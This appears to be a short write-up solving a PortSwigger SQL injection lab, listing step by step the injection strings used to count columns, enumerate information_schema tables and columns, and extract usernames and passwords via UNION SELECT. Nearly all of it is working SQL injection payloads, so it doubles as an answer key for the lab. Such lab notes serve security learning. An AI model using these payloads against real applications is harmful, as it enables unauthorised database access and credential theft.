 # [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Step - 1

---

```
'
```

Error because Single Quotes

Step - 2

---

```
'--
```

No MySQL

Step - 3

---

```
' ORDER BY 3--
```

Error because 2 Column

Step - 4

---

```
' UNION SELECT 'a','a'--
```

2 String Column

Step - 5

---

```
' UNION SELECT 'a',table_name FROM information_schema.tables--
```

1. table_name - `users_losije`

Step - 6

---

```
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
```

1. column_name - `username_nlazuv` and `password_xcildc`

Step - 7

---

```
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
```
